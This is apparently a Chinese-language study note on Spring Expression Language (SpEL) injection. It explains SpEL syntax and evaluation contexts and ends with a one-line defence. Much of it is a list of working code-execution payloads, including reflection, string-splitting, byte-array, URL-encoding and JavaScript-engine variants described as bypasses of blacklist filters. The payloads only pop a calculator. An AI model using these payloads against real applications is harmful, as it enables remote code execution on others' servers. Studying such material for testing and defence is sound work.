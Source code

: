 # SpEL表达式注入

## 前言

具体参考https://www.mi1k7ea.com/2020/01/10/SpEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93



## 定界符

SpEL使用`#{}`作为定界符，所有在大括号中的字符都将被认为是SpEL表达式，在其中可以使用SpEL运算符、变量、引用bean及其属性和方法等。

- `#{}`就是SpEL的定界符，用于指明内容未SpEL表达式并执行；
- `${}`主要用于加载外部属性文件中的值；
- 两者可以混合使用，但是必须`#{}`在外面，`${}`在里面，如`#{'${}'}`，注意单引号是字符串类型才添加的；

## T表达式

在SpEL表达式中，使用`T(Type)`运算符会调用类的作用域和方法。

使用`T(Type)`来表示java.lang.Class实例，Type必须是类全限定名，但”java.lang”包除外，因为SpEL已经内置了该包，即该包下的类可以不指定具体的包名；使用类类型表达式还可以进行访问类静态方法和类静态字段。

```java
T(Runtime).getRuntime().exec('calc')
```



## Expression用法

SpEL的用法有三种形式，一种是在注解@Value中；一种是XML配置；最后一种是在代码块中使用Expression。

> SpEL 在求表达式值时一般分为四步，其中第三步可选：首先构造一个解析器，其次解析器解析字符串表达式，在此构造上下文，最后根据上下文得到表达式运算后的值。

简单例子：

```java
        ExpressionParser parser = new SpelExpressionParser();
        String poc = "T(Runtime).getRuntime().exec('calc')";
        EvaluationContext context = new StandardEvaluationContext();
        parser.parseExpression(poc).getValue(context);
```

### 类实例化

类实例化同样使用Java关键字new，类名必须是全限定名，但java.lang包内的类型除外。

```java
String poc = "new java.util.Date()"
```

## 变量定义和引用

在SpEL表达式中，变量定义通过EvaluationContext类的setVariable(variableName, value)函数来实现；在表达式中使用”#variableName”来引用；除了引用自定义变量，SpEL还允许引用根对象及当前上下文对象：

- `#this`：使用当前正在计算的上下文；
- `#root`：引用容器的root对象；

## SpEL表达式注入漏洞

SimpleEvaluationContext和StandardEvaluationContext是SpEL提供的两个EvaluationContext：

- SimpleEvaluationContext - 针对不需要SpEL语言语法的全部范围并且应该受到有意限制的表达式类别，公开SpEL语言特性和配置选项的子集。
- StandardEvaluationContext - 公开全套SpEL语言功能和配置选项。您可以使用它来指定默认的根对象并配置每个可用的评估相关策略。

SimpleEvaluationContext旨在仅支持SpEL语言语法的一个子集，不包括 Java类型引用、构造函数和bean引用；而StandardEvaluationContext是支持全部SpEL语法的。

默认使用`StandardEvaluationContext `

```java
        ExpressionParser parser = new SpelExpressionParser();
        String poc = "T(Runtime).getRuntime().exec('calc')";
        EvaluationContext context = new StandardEvaluationContext();
        parser.parseExpression(poc).getValue(context);
```

一些POC：

```java
// PoC原型

// Runtime
T(java.lang.Runtime).getRuntime().exec("calc")
T(Runtime).getRuntime().exec("calc")

// ProcessBuilder
new java.lang.ProcessBuilder({'calc'}).start()
new ProcessBuilder({'calc'}).start()

******************************************************************************
// Bypass技巧

// 反射调用
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 同上，需要有上下文环境
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 反射调用+字符串拼接，绕过如javacon题目中的正则过滤
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 同上，需要有上下文环境
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part1
// byte数组内容的生成后面有脚本
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part2
// byte数组内容的生成后面有脚本
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))

// JavaScript引擎通用PoC
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)

// JavaScript引擎+反射调用
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)

// JavaScript引擎+URL编码
// 其中URL编码内容为：
// 不加最后的getInputStream()也行，因为弹计算器不需要回显
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)

// 黑名单过滤".getClass("，可利用数组的方式绕过，还未测试成功
''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'calc')

// JDK9新增的shell，还未测试
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```

需要注意一点的是，`parseExpression()`是包含2个参数的，如果有了第二个参数`ParserContext`，那么POC就需要用`#{}`包围才行。

## 防御

使用`SimpleEvaluationContext`。



